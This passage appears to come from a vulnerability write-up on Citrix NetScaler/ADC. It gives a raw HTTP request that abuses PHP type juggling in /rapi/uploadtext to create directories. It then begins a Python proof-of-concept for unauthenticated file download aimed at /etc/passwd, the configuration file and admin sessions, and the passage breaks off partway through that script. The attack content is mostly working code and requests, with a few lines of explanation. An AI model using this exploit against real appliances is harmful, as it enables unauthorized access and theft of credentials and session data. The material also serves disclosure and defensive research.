 ### Create a directory
The trick here is to set the filedir parameter to false (without using quotes), to do some PHP type juggling.
```http
POST /rapi/uploadtext HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
DNT: 1
rand_key: 1467045781.1580550597345443
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; SESSID=05afba59ef8e0e35933f3bc266941337; rdx_pagination_size=25%20Per%20Page
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

object={"uploadtext":{"filedir":false,"filedata":"data","filename":"/var/tmp/new_directory/this_will_be_removed"}}
```

### Read files
And finally, the ultimate goal, a PoC script to download random files from the Netscaler / ADC, without authentication. This includes things like

- the config file
- admin sessions in /var/nstmp (all files are shown if you query the directory)

```python
#!/usr/bin/env python

import requests
import sys
import string
import random
import json
from urllib.parse import quote

# Slashes need to be urlencoded
PAYLOAD='%2fetc%2fpasswd'

requests.packages.urllib3.disable_warnings()

def random_string(length=8):
	chars = string.ascii_letters + string.digits
	random_string = ''.join(random.choice(chars) for x in range(length))
	return random_string

def create_session(base_url, session):
	url = '{0}/pcidss/report'.format(base_url)

	params = {
		'type':'allprofiles',
		'sid':'loginchallengeresponse1requestbody',
		'username':'nsroot',
		'set':'1'
	}

	headers = {
```